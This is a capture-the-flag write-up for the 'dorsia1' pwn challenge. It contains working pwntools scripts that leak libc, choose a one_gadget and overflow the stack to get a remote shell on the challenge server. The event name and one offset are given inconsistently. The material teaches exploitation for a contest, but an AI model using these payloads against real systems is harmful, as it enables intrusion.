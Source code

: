# DawgCTF 2020

## dorsia1

> 100
>
> [http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm](../dorsia.webm) The first card.
>
> `nc dorsia1.wpictf.xyz 31337 or 31338 or 31339`
>
> made by: awg
> 
> _Hint: Same libc as dorsia4, but you shouldn't need the file to solve._

Tags: _pwn_


### Analysis

#### Roll the film ([dorsia.webm](../dorsia.webm))

![](dorsia1.png)

Quite possibly one of the best movies scenes ever (your results may vary), augmented with _new pwns_.  And ..., there are two verbal hints in the clip: _stack smash_ and _fgets_.

What I most appreciate about this challenge is that this is a legit fuckup.  You could (and can) actually expect someone to mistype the `69` as `96`.

The hint: _Same libc as dorsia4, but you shouldn't need the file to solve_, was actually delivered later in the challenge as users keep asking for the libc version.  I do not fully agree with that.  For starters is this x86_64, x86, arm, or something else?

The `printf` leaks the location of `system` with an offset (`765772`), this can be used to both determine the version of libc as well as the architecture.

Assuming x86_64 (safe bet) _stack smash_ with 69 bytes + 8 bytes for the saved base pointer then an 8 byte address as the new return address.  That leaves 16 bytes left (15 really since `fgets` will only read 68 bytes (one less than size parameter)).  This is important, because it'll tell you what will not work: `pop rdi; ret`, pointer to `/bin/sh`, `system`.  Which is exactly what I tried first (habit, I prefer this over gadgets because it is portable).  That 96th byte will be a NULL (0x00), and unless the remote libc address space starts with `0x00` (and it does not), then this will not work.  Plan B: try a gadget.

However, there is a 2nd, easier solution, and the hint spells that out for you.  `765772`.  What is that number and what does it mean?  It pays to be curious.


### Exploit

#### Attack Plan

1. Leak libc address
2. Find libc version
3. Find a gadget
2. Get the flag


#### Leak libc address

```
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

system = int(_,16) - 765772
print(hex(system))
```


#### Find libc version

```
import os
stream = os.popen("libc-database/find system " + str(hex(system & 0xFFF)) + " | grep /glibc/ | sed 's/)//' | awk '{print $NF}'")
output = stream.read().strip()
stream.close()

libc = ELF('libc-database/db/' + output + '.so')
baselibc = system - libc.symbols['system']
print("libc:" + str(hex(baselibc)))
print('libc-database/db/' + output + '.so')
```

This code assumes you have the libc-database cloned locally, however there's an online version as well: [https://libc.blukat.me/](https://libc.blukat.me/).  Personally I prefer the local version, esp. if searching for gadgets or ROP chains.

Running this will output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x783e16412440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x783e163c3000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
```

Now we have the libc version and binary.


#### Find a gadget

```
# one_gadget libc-database/db/libc6_2.27-3ubuntu1_amd64.so

0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

`0x4f322` looks the most promising.


#### Get the flag

```
gadget = 0x4f322

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(baselibc + gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

Filling the rest of the stack with NULLs is just habit--it can help however with `one_gadget`.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x7386ccfc1440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x7386ccf72000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### Flag

```
WPI{FEED_ME_A_STRAY_CAT}
```


### Be curious

```
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

gadget = int(_,16)

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

This basically just sends back `system+765722` as the return address in our _stack smash_.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### What is `system+765722`?

Let's find out:

```
# python3
Python 3.7.5 (default, Nov 20 2019, 09:21:52)
[GCC 9.2.1 20191008] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> print(hex(libc.symbols['system'] + 765722))
0x10a35a
```

Looking at the `one_gadget` output above it looks pretty close to `0x10a38c`.



